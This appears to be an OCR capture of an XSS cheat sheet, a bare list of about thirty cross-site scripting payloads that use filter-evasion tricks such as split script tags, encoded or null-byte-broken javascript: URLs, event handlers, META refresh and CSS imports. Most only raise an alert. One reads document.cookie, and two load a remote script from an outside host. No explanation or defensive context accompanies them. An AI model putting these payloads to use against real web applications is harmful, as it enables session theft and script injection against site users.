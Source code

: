 &lt;scr&lt;script&gt;ipt&gt;alert('XSS');&lt;/scr&lt;/script&gt;ipt&gt;

&lt;style&gt;@im\port'\ja\vasc\ript:alert(\"XSS\")';&lt;/style&gt;

&lt;? echo('&lt;scr)'; echo('ipt&gt;alert(\"XSS\")&lt;/script&gt;'); ?&gt;

&lt;marquee&gt;&lt;script&gt;alert('XSS')&lt;/script&gt;&lt;/marquee&gt;

&lt;IMG SRC=\"jav&#x09;ascript:alert('XSS');\"&gt;

&lt;IMG SRC=\"jav&#x0A;ascript:alert('XSS');\"&gt;

&lt;IMG SRC=\"jav&#x0D;ascript:alert('XSS');\"&gt;

&lt;IMG LOWSRC=\"javascript:alert('XSS')\"&gt;

&lt;IMG DYNSRC=\"javascript:alert('XSS')\"&gt;

&lt;img src="javascript:alert('XSS')"&gt;

&lt;script language="JavaScript"&gt;alert('XSS')&lt;/script&gt;

&lt;body onunload="javascript:alert('XSS');"&gt;

&lt;body onLoad="alert('XSS');"

&lt;iframe&lt;?php echo chr(11)?&gt; onload=alert('XSS')&gt;&lt;/iframe&gt;

'&gt;&gt;&lt;marquee&gt;&lt;h1&gt;XSS&lt;/h1&gt;&lt;/marquee&gt;

'"&gt;&gt;&lt;script&gt;alert('XSS')&lt;/script&gt;

'"&gt;&gt;&lt;marquee&gt;&lt;h1&gt;XSS&lt;/h1&gt;&lt;/marquee&gt;

&lt;META HTTP-EQUIV=\"refresh\" CONTENT=\"0;url=javascript:alert('XSS');\"&gt;

&lt;META HTTP-EQUIV=\"refresh\" CONTENT=\"0; URL=http://;URL=javascript:alert('XSS');\"&gt;

&lt;?='&lt;SCRIPT&gt;alert("XSS")&lt;/SCRIPT&gt;'?&gt;

&lt;IMG SRC='vbscript:msgbox(\"XSS\")'&gt;

&lt;FRAMESET&gt;&lt;FRAME SRC=\"javascript:alert('XSS');\"&gt;&lt;/FRAMESET&gt;


&lt;STYLE&gt;li {list-style-image: url(\"javascript:alert('XSS')\");}&lt;/STYLE&gt;&lt;UL&gt;&lt;LI&gt;XSS

perl -e 'print \"&lt;SCR\0IPT&gt;alert(\"XSS\")&lt;/SCR\0IPT&gt;\";' &gt; out


perl -e 'print \"&lt;IMG SRC=java\0script:alert(\"XSS\")&gt;\";' &gt; out

&lt;br size=\"&{alert('XSS')}\"&gt;

"&gt;&lt;BODY onload!#$%&()*~+-_.,:;?@[/|\]^`=alert("XSS")&gt;

&lt;body onLoad="while(true) alert('XSS');"&gt;

'&gt;"&gt;&lt;script src = 'http://www.site.com/XSS.js'&gt;&lt;/script&gt;

}&lt;/style&gt;&lt;script&gt;a=eval;b=alert;a(b(/XSS/.source));&lt;/script&gt;

&lt;SCRIPT&gt;document.write("XSS");&lt;/SCRIPT&gt;

"&gt;/XaDoS/&gt;&lt;script&gt;alert(document.cookie)&lt;/script&gt;&lt;script src="http://www.site.com/XSS.js"&gt;&lt;/script&gt;
